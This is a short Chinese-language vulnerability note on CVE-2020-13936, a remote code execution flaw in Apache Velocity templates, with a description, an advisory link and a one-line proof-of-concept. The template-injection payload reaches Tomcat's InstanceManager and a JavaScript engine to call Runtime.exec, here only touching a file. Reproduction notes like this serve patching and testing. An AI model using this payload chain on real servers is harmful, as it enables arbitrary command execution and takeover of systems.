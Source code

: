 # 

# Apache Velocity 远程代码执行 CVE-2020-13936

## 漏洞描述

Velocity Uberspector无法阻止访问java.lang.ClassLoader类加载器方法。在VelocityView的上下文中使用Velocity模板时，能够修改模版的攻击者可以使用与运行Servlet容器的帐户相同的权限执行任意Java代码或运行任意系统命令。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-048-apache-velocity

## 漏洞复现

poc：

```
${req.getServletContext().getAttribute('org.apache.tomcat.InstanceManager').newInstance('javax.script.ScriptEngineManager').getEngineByName('js').eval("java.lang.Runtime.getRuntime().exec('touch /tmp/pwned')")}
```


